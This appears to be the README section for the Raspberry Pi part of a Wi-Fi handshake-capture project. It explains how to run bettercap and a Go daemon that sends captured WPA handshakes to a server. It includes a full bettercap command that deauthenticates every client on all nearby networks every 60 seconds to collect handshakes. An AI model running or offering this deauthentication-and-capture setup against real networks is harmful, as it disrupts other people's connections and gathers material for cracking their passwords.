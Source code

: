 The Raspberry Pi component is designed to **send network captures performed by `bettercap` to the server**. Its functionality is straightforward: you run the `bettercap` daemon on the Raspberry Pi, and it automatically transmits captured handshakes to the server whenever your local Wi-Fi SSID is detected nearby.

> [!NOTE]  
> This feature is **disabled** if the `TEST` environment variable is set to `False`. Ensure that your Raspberry Pi has at least **two network interfaces**, with one interface always connected to a stable network.

> **Tested on Raspberry Pi 5 Model B Rev. 2**

> [!TIP]  
> Update the `wlan1` interface to match your network interface. Make sure your Wi-Fi card supports **monitor mode** and **packet injection**.

---

## **What Does the Daemon Do?**

The daemon performs the following tasks:

1. Acts as a **TCP/IP client** to establish raw network connections.
2. Scans all `.PCAP` files located in the `~/handshakes` directory (typically where `bettercap` saves handshakes).
3. Utilizes the **`gopacket`** library to read `.PCAP` file layers, extracting **BSSID** and **SSID** information, and verifying if a **valid 4-way handshake** exists.
4. If a valid handshake is detected, the daemon **encodes the file in Base64** and sends it to the server.
5. Waits for a predefined **delay period** before repeating the process.

---

## **Run Bettercap**

This configuration sets up `bettercap` to capture handshakes and save them in the correct directory.

```bash
sudo bettercap -iface wlan1 -eval 'set wifi.handshakes.aggregate false; set wifi.handshakes.file ~/handshakes; wifi.recon on; set wifi.show.sort clients desc; set ticker.commands "wifi.deauth *; clear; wifi.show"; set ticker.period 60; ticker on';
```

> [!WARNING]  
> The daemon uses the `HOME` directory as its base. Since `bettercap` requires `sudo`, you must run the daemon as `root`.

---

## **Other Useful Bettercap Commands**

These commands can help you fine-tune your `bettercap` setup:

```bash
sudo bettercap -iface wlan1
wifi.recon BBSID
wifi.recon on
wifi.recon.channel N; # N is the channel to recon
```

---

## **Compile and Run the Daemon**

Make sure the following requirements are met before building and running the daemon:

> [!IMPORTANT]  
> The daemon requires `libpcap0.8-dev` to be installed on your system, even if you're using compiled binaries from releases.

> [!IMPORTANT]  
> The file `/etc/machine-id` must exist on your machine.

1. Comile daemon with:

```bash
cd raspberry-pi
make build
```

2. Run with

```bash
./build/daemon --help
```

but remeber to export these env var first, change them according to your needs

```bash
export SERVER_HOST=localhost
export SERVER_PORT=4747
export TCP_ADDRESS=localhost
export TCP_PORT=4749
export TEST=False
export HOME_WIFI=Vodafone-A60818803 # Change with your SSID of your home Wireless Network
export BETTERCAP=True
```